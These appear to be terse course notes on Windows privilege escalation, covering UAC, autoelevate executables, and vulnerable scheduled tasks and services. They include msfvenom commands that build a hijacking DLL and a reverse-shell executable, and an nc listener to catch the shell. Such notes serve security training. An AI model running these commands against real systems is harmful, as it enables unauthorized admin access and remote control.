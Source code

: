 ### UAC
	kind of like sudo, will allow to run as admin

### AutoElevate Executables
	Execution Level:
		asInvoker
		highestAvailable
		
	find execution levels
		sigcheck -m <file>
		
### Scheduled Tasks & Services
	evaluate
		write perms, non-standard locations, unquoted exe paths, vulmerablities in exe, run as system

### Find Vuln Scheduled Tasks
	schtasks /query /fo LIST /v
	schtasks /query /fo LIST /v | select-string -Pattern "Task To Run" -CaseSensitive | select-string -pattern "COM handler" -NotMatch
	sigcheck putty
	icacls "directory", find what permissions you have for the file in the directory
	look at proc mon to find the dll, path contains ddl, putty, find where it runs the dlls and how it does

	msfvenom to make payload
	Lin>
	msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\Users\DemoAdmin\Desktop\whoami -f dll > SSPICLI.ddl
	
	Win> 
	scp student@linip:<filepathtodll> <whereyouwantdlltobe> [whenthe app is run it will search for the directory and the dll will run]
	
### Find Vuln Services
	wmic service list full
	sc query
	
	look in the services gui
	find shady services
	filter on description, look at shady ones, look at properties
		path to exe
		startup
	look at the file in the dir, see what you can do with it, find a file where you can do everything in
		
	msfvenom -p windows/shell_reverse_tcp LHOST=linops LPORT=<port> -f exe > <filename>
	net start <service> 	
	
	nc lvp <port> to get the shell
	net localgroup administrators
	
### Other Vulnerabilities
	Patch Kernel Vuln
	Patch Systems
	Patch Apps	
	